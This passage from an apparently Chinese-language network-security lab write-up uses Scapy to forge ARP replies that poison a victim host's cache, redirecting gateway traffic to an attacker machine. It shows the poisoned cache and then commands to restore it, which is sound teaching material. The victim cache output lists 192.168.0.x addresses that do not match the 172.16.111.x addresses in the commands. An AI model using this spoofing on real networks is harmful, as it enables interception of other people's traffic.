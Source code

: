 3. 伪造网关的 ARP 响应包
```
# 准备发送给受害者主机 172.16.111.118
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.118", hwdst="08:00:27:b1:3a:54")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![发送ARP响应](./img4/伪造ARP响应.png)  

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
# 192.168.0.103 dev enp0s3 lladdr 08:00:27:bd:92:09 STALE
# 192.168.0.1 dev enp0s3 lladdr 08:00:27:bd:92:09 REACHABLE
```

![受害者ARP缓存](./img4/受害者ARP缓存.png)  

回到攻击者主机上的 scapy 交互式终端继续执行命令。

4. 恢复受害者主机的 ARP 缓存记录
```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:ca:a3:8a", pdst="172.16.111.118", hwdst="08:00:27:20:27:fb")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:ca:a3:8a", psrc="172.16.111.118", hwsrc="08:00:27:20:27:fb")
sendp(restorepkt2, count=100, inter=0.2)
```

![恢复ARP缓存](./img4/恢复ARP缓存.png)  
